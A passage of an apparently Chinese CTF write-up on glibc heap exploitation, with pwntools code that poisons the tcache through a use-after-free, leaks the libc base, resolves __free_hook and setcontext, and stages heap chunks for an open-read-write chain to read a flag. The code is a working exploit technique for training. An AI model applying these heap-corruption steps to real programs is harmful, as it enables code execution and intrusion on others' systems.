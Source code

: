    ![image-20240723175002268](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231750509.png)

2. 修改tcache，伪造0x90bin的数量，并利用0x80bin和0x70bin来达到释放0x90chunk的目的（伪造size字段）：

   ```python
   # 申请到tcache ，伪造tcache头，泄漏libc基地址
   change_size_addr = heap_addr+0x250
   free_chunk_addr  = heap_addr+0x260
   add(0x78)
   add(0x78)   #tcache chunk
   payload = b"\x00"*5 + b"\x02" + b"\x01" + b"\x07" + p64(0)*12 + p64(change_size_addr) + p64(free_chunk_addr)
   edit(payload)
   
   add(0x68)   #修改size大小
   edit(p64(0)+p64(0x91))
   
   add(0x28)
   edit(p64(0)+p64(0x21))  #保证寻址到topchunk
   add(0x78)   #释放0x91chunk
   free()
   show()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
    
   #计算__free_hook和system地址
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   setcontext_addr = libc_base + libc.sym["setcontext"] + 53
   success("free_hook_addr==>"+hex(free_hook_addr))
   success("setcontext_addr==>"+hex(setcontext_addr))
   ```

   ![image-20240723175357154](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231753374.png)

   ![image-20240723175528718](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231755919.png)

   ![image-20240723175649712](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231756907.png)

3. 再次利用UAF修改next，申请到tcache，伪造tcache来构造堆，为写入ORW做准备：

   ```python
   add(0x78)
   free()
   free()
   edit(p64(heap_addr+0x10))   #后续申请到tcache
   add(0x78)
   add(0x78)
   # 准备堆
   payload = b"\x02"*0x40		#bin的数量全部给2个，简单高效
   payload += p64(free_hook_addr) + p64(0)     #chunk20,用来修改free_hook chunk30没用
   #后面bin的地址随便选，保证未被使用即可，且chunk50与chunk60之间的偏移必须是0xa0、chunk70和chunk80之间的偏移必须是0x60
   payload += p64(heap_addr+0x1000)            #chunk40 存放flag名字
   payload += p64(heap_addr+0x2000)            #chunk50 作为free的chunk,0x2000+0xa0刚好寻址到下一个chunk中存放的地址
   payload += p64(heap_addr+0x2000+0xa0)       #chunk60 存放栈迁移后的地址
   payload += p64(heap_addr+0x3000)            #chunk70 ORW1
   payload += p64(heap_addr+0x3000+0x60)       #chunk80 ORW2,衔接上一个继续写，不能将chunk头空出来
   edit(payload)
   ```
